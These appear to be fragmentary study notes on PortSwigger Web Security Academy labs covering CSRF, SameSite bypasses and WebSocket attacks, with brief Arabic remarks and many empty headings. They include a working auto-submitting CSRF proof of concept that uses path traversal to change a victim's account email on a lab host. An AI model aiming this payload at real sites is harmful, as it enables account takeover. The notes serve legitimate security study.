 ```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation" method="GET">
    <input type="hidden" name="postId" value="/../../my-account/change-email?email=a%40a.ca&submit=1" />
    <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## **SameSite Strict bypass via sibling domain**

## **SameSite Lax bypass via cookie refresh**

## **CSRF where Referer validation depends on header being present**

تشتغل عادي جدا بس تزود 
TAG ⇒>يحذف ال Referrer
ولازم يكون موجود جوا
<head>———</head>

## **CSRF with broken Referer validation**

# **Web Sockets**

## **Manipulating WebSocket messages to exploit vulnerabilities**

## **Cross-site WebSocket hijacking**

## **Manipulating the WebSocket handshake to exploit vulnerabilities**

خلاصه الموضوع دا لازم تكون فاعم ازي تعملها 
intercept 
+ try all vuln…

# **API testing**
